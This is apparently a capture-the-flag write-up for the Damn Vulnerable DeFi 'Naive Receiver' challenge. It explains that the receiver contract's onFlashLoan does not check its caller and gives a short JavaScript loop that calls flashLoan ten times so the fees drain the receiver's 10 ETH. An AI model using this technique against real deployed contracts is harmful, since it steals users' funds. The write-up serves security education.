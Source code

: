 There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/naive-receiver)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v3.0.0/test/naive-receiver/naive-receiver.challenge.js)
___
## Solution:
As we can see in the file `FlashLoanReceiver.sol` in function `onFlashLoan`, the caller is not checked. It means, that we, as a player, can call this flash loan to receive the fee from receiver. 

We need to do it 10 times because of we need to drain hole receiver's budget. 

```js
const ETH = await pool.ETH();

for(let i = 0; i < 10; i++) {
	await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
}
```
